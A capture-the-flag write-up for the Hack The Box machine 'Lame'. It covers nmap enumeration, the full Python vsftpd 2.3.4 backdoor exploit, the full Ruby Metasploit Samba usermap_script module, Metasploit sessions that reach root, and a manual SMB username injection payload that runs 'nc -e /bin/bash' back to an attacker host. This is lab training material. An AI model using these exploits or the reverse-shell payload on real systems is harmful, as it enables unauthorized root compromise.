


# <center>Lame</center>

Okay folks, today we will solve an easy labeled linux based HTB machine `Lame`.

## Initial step

- connect to htb vpn and spawn the machine.
  
## Scanning and Enumeration

### nmap scan
- `nmap -sC -sV 10.10.10.3 -Pn`
```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ nmap -sC -sV 10.10.10.3 -Pn 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-06 21:00 IST
Nmap scan report for 10.10.10.3
Host is up (0.23s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h00m23s, deviation: 2h49m45s, median: 21s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-08-06T11:31:30-04:00
|_smb2-time: Protocol negotiation failed (SMB2)

```

**Important things to notice:**
- ftp is running on port 21. 
    - Anonymous login is allowed.
    - vsFTPd 2.3.4 
- ssh on port 22 (as usual)
- samba on 139 and 445
    - smbd 3.0.20-Debian

I would always keep ssh on the bottom of my list to enumerate because generally you don't get vulnerable points in SSH. So let's begin with ftp(port 21).

## Exploitation

We have anonymous login enabled. Let's check it:



Argh!, useless. No interesting information here.

Let's hunt vsftpd 2.3.4 down 😉.

```bash
┌──(cyb3ritic㉿kali)-[~/Downloads]
└─$ searchsploit vsFTPd 2.3.4                          
----------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                    | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                       | unix/remote/17491.rb
----------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Here we got two exploits for the given ftp version, let's see what gets us to the treasure...

Just googling on the first exploit, I got this exploit:
```python
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution
# Date: 9-04-2021
# Exploit Author: HerculesRD
# Software Link: http://www.linuxfromscratch.org/~thomasp/blfs-book-xsl/server/vsftpd.html
# Version: vsftpd 2.3.4
# Tested on: debian
# CVE : CVE-2011-2523

#!/usr/bin/python3   
                                                           
from telnetlib import Telnet 
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)                           
parser=argparse.ArgumentParser()        
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()       
host = args.host                        
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()
```

Let's try to run this exploit. And a badluck, it didn't work.🥲
But no worries, we still got one exploit left in our quiver. Let's give it a try.

```bash
msf6 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > use exploit/unix/ftp/vsftpd_234_backdoor 
[*] Using configured payload cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

Nope, couldn't catch a fish. Let's move on to the smaba.

```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ searchsploit samba 3.0.20                          
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                              | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                    | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                               | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                       | linux_x86/dos/36741.py
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Cool 🤩, we have a 'username' map script for command injection using Metasploit. Let's check it out.

```bash
msf6 > search samba 3.0.20

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 10.10.14.18:4444 
[*] Command shell session 1 opened (10.10.14.18:4444 -> 10.10.10.3:36330) at 2024-08-14 18:24:02 +0530

whoami
root
shell
[*] Trying to find binary 'python' on the target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary 'bash' on the target machine
[*] Found bash at /bin/bash
root@lame:/# id
id
uid=0(root) gid=0(root)
```

So, we were able to compromise the system using Metasploit and got the access to root user.


### Try without metasploit

In most of the prestigious exams including OSCP, the frameworks like Metasploit is not allowed. So we must also learn to solve this without using Metasploit. Let's dive in..

Let's start SAMBA/SMB enumeration with smbclient. It will allow to attemp to connect to share and get anonymous access (if allowed).
- `smbclient -L 10.10.10.3` (-L flag is used to list all the shares)
- just press enter when prompted for password and you can anoymously access the content.
```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ smbclient -L 10.10.10.3
Password for [WORKGROUP\cyb3ritic]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME                                    
```

- Here, `tmp` share with the comment `oh noes!` looks interesting. Let's try it.
```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ smbclient \\\\10.10.10.3\\tmp
Password for [WORKGROUP\cyb3ritic]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Aug 14 18:52:20 2024
  ..                                 DR        0  Sat Oct 31 12:03:58 2020
  orbit-makis                        DR        0  Wed Aug 14 15:55:32 2024
  hbnez                               N        0  Tue Aug 13 07:59:27 2024
  .ICE-unix                          DH        0  Mon Aug 12 21:40:40 2024
  vmware-root                        DR        0  Mon Aug 12 21:41:08 2024
  .X11-unix                          DH        0  Mon Aug 12 21:41:06 2024
  ixujvi                              N        0  Tue Aug 13 01:27:16 2024
  gconfd-makis                       DR        0  Wed Aug 14 15:55:32 2024
  nc64.exe                            A    45272  Wed Aug 14 06:33:15 2024
  .X0-lock                           HR       11  Mon Aug 12 21:41:06 2024
  kvbn                                N        0  Tue Aug 13 22:42:26 2024
  hago                                N        0  Tue Aug 13 05:39:00 2024
  5555.jsvc_up                        R        0  Mon Aug 12 21:41:41 2024
  vgauthsvclog.txt.0                  R     1600  Mon Aug 12 21:40:38 2024

                7282168 blocks of size 1024. 5385852 blocks available
smb: \>
```

Unfortunately, tmp was the only share we were authorized to connect. We got hte bunch of files and nothing else.

While searching for the exploit for smb 3.0.20, usig searchsploit, we got an exploit `16320,rb` which was used my metasploit. Let's analyze the exploit.
- first copy the exploit to your working directory
    - `searchsploit -m 16320.rb`
    ```bash
    ┌──(cyb3ritic㉿kali)-[~]
    └─$ searchsploit -m 16320.rb 
    Exploit: Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
        URL: https://www.exploit-db.com/exploits/16320
        Path: /usr/share/exploitdb/exploits/unix/remote/16320.rb
        Codes: CVE-2007-2447, OSVDB-34700
    Verified: True
    File Type: Ruby script, ASCII text
    Copied to: /home/cyb3ritic/16320.rb
    ```

Let's see what's inside this exploit. `cat 16320.rb`
```ruby 
##
# $Id: usermap_script.rb 10040 2010-08-18 17:24:46Z jduck $
##

##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/framework/
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
    Rank = ExcellentRanking

    include Msf::Exploit::Remote::SMB

    # For our customized version of session_setup_ntlmv1
    CONST = Rex::Proto::SMB::Constants
    CRYPT = Rex::Proto::SMB::Crypt

    def initialize(info = {})
        super(update_info(info,
            'Name'           => 'Samba "username map script" Command Execution',
            'Description'    => %q{
                            This module exploits a command execution vulerability in Samba
                    versions 3.0.20 through 3.0.25rc3 when using the non-default
                    "username map script" configuration option. By specifying a username
                    containing shell meta characters, attackers can execute arbitrary
                    commands.

                    No authentication is needed to exploit this vulnerability since
                    this option is used to map usernames prior to authentication!
            },
            'Author'         => [ 'jduck' ],
            'License'        => MSF_LICENSE,
            'Version'        => '$Revision: 10040 $',
            'References'     =>
                    [
                        [ 'CVE', '2007-2447' ],
                        [ 'OSVDB', '34700' ],
                        [ 'BID', '23972' ],
                        [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
                        [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
                    ],
            'Platform'       => ['unix'],
            'Arch'           => ARCH_CMD,
            'Privileged'     => true, # root or nobody user
            'Payload'        =>
                    {
                        'Space'    => 1024,
                        'DisableNops' => true,
                        'Compat'      =>
                                {
                                    'PayloadType' => 'cmd',
                                    # *_perl and *_ruby work if they are installed
                                    # mileage may vary from system to system..
                                }
                    },
            'Targets'        =>
                    [
                            [ "Automatic", { } ]
                    ],
            'DefaultTarget'  => 0,
            'DisclosureDate' => 'May 14 2007'))

        register_options(
            [
                    Opt::RPORT(139)
            ], self.class)
    end
        def exploit

            connect

            # lol?
            username = "/=`nohup " + payload.encoded + "`"
            begin
                simple.client.negotiate(false)
                simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
            rescue ::Timeout::Error, XCEPT::LoginError
                    # nothing, it either worked or it didn't ;)
            end
            handler
        end
end  

```

The key part is `def exploit` function. It's changing an smb session using:
- username = /=\`nohop [payload]\`
- password - random 16 characters
- domain = user provided domain

So basically on Linux, \` \` are used to execute and put the output in place, just like $(). It seems Samba is allowing that to happen inside the username. Metasploit is calling nohup (which starts the process outside the current context) and then a payload. Let's login anonymously and then change the user using following command payload

- `logon "./='nohop nc -e /bin/bash <ip_addr> <port>`

 I fired up my netcat listener on 1234 port and tried this payload.
 

 I got shell with root access on my netcat listener. We can go to the users home directory and grab the user flag by using the following command: `cat /home/markis/user.txt`
 

 Similarly, we can grab the root flag using the following command: `cat /root/root.txt`


Ans Voilà, we pwned lame.
Hope you guys enjoyed reading this and learned something new.

Keep Hacking..

Until we meet again...

